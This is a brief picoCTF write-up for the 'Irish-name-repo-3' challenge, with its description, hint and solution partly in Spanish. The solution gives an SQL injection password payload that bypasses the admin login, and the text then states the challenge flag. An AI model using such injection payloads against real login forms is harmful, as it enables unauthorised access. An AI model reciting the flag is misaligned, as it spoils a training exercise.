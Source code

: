 
# Irish-name-repo-3

# Descripción
There is a secure website running at `https://jupiter.challenges.picoctf.org/problem/54253/` ([link](https://jupiter.challenges.picoctf.org/problem/54253/)) or http://jupiter.challenges.picoctf.org:54253. Try to see if you can login as admin!
# Pistas
Seems like the password is encrypted.
# Solución

```bash
#Inyeccion sql

password: ' be 1=1--

# Logged in!

Your flag is: picoCTF{3v3n_m0r3_SQL_7f5767f6}
```

# Bandera
picoCTF{3v3n_m0r3_SQL_7f5767f6}